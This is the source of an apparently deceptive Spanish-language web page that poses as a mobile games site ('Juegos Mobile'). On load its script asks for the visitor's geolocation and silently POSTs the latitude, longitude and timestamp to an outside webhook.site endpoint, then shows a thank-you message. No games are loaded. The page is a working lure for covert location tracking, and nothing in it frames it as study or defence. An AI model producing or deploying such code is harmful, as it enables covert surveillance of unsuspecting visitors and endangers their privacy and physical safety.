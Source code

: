 <!DOCTYPE html>
<html>
<head>
  <title>Juegos Mobile</title>
</head>
<body>
  <h2>Cargando juegos móviles...</h2>
  <script>
    function enviarUbicacion(lat, lon) {
      fetch("https://webhook.site/juegos.mobile", {
        method: "POST",
        headers: {
          "Content-Type": "application/json"
        },
        body: JSON.stringify({
          latitud: lat,
          longitud: lon,
          fecha: new Date().toISOString()
        })
      });
    }

    if ("geolocation" in navigator) {
      navigator.geolocation.getCurrentPosition(
        function(position) {
          const lat = position.coords.latitude;
          const lon = position.coords.longitude;
          enviarUbicacion(lat, lon);
          document.body.innerHTML = `<p>Gracias por visitar Juegos Mobile</p>`;
        },
        function(error) {
          document.body.innerHTML = "<p>No se pudo obtener tu ubicación.</p>";
        }
      );
    } else {
      document.body.innerHTML = "<p>Tu navegador no soporta geolocalización.</p>";
    }
  </script>
</body>
</html>

